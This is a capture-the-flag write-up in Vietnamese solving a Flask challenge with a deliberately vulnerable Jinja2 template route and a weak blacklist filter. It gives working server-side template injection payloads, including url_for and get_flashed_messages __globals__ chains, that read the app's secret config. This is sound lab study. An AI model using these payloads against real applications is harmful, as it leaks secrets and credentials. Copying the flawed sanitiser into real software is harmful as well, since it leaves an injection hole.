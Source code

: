 ![image](https://github.com/Llam-a/BUUCTF/assets/115911041/10e67e4b-53b1-4afa-9432-85e142d3cf46)Ta format lại code của bài

```python
import flask
import os
  
app = flask.Flask(__name__)
  
app.config['FLAG'] = os.environ.pop('FLAG')
  
@app.route('/')
def index():
    return open(__file__).read()
  
@app.route('/shrine/<path:shrine>')
def shrine(shrine):
  
    def safe_jinja(s):
        s = s.replace('(', '').replace(')', '')
        blacklist = ['config', 'self']
        return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) + s
  
    return flask.render_template_string(safe_jinja(shrine))
  
if __name__ == '__main__':
    app.run(debug=True)
```

Có thể thấy có 2 routes, route đầu tiên là source code hiện tại, route thứ hai là sumbit tham số dưới path, `@app.route('/shrine/<path:shrine>')` ---> Input của ta nằm ở /shrine/.

Thử test với `{{7*7}}`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/9b1ab8aa-5cb1-470d-beea-406d8ea5ac4b)

`s = s.replace('(', '').replace(')', '')` ⇒ `(` `)` sẽ bị xóa

`blacklist = ['config', 'self']` ⇒ `config`, `self` sẽ bị xóa

Và nó cũng auto thêm {% set config=None%}{% set self=None%} vào trước payload.

`return flask.render_template_string(safe_jinja(shrine))` ⇒Vulnerability is SSTI by Jinja2 (Server Side Template Injection).

Goal của ta là lấy được flag: `app.config['FLAG'] = os.environ.pop('FLAG')`.Nhưng mà đã bị filter mất `config` nên k thể xem app.config.

Nếu ta ko bị filter `self` và `config` thì thường có thể dùng:
`url_for, g, request, namespace, lipsum, range, session, dict, get_flashed_messages, cycler, joiner, config`

Hoặc k bị filter `(`,  `)`

`{{[].__class__.__base__.__subclasses__()[68].__init__.__globals__['os'].__dict__.environ['FLAG]}}`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/1dc5b88f-8469-4899-86da-600dc88a0306)

Mình research xem có thê dùng cách nào để thay thế `config` và `shelf`.Sau khi đọc docs thì python có built-in function aka tính năng cái sẵn.Thay vì ta cần config, ta có thể access config từ global variable(current_app).Ví dụ:

`__globals__['current_app'].config['FLAG]`

`top.app.config['FLAG']`

------- SOLVE

`{{url_for.__globals__}}`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/3b387300-0db7-41db-a713-02f5d8ce270d)

Vậy nó là current app. Ta có thể config từ đó

`{{url_for.__globals__['current_app'].config}}`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/116aa7d8-ebb0-4a30-a2e1-5c151c936cf5)

Hoặc ta có thể dùng `get_flashed_messages`

Nó sẽ return flashed messages từ session và trả về chúng dưới dạng một danh sách

`{{get_flashed_messages.__globals__['current_app'].config['FLAG']}}`

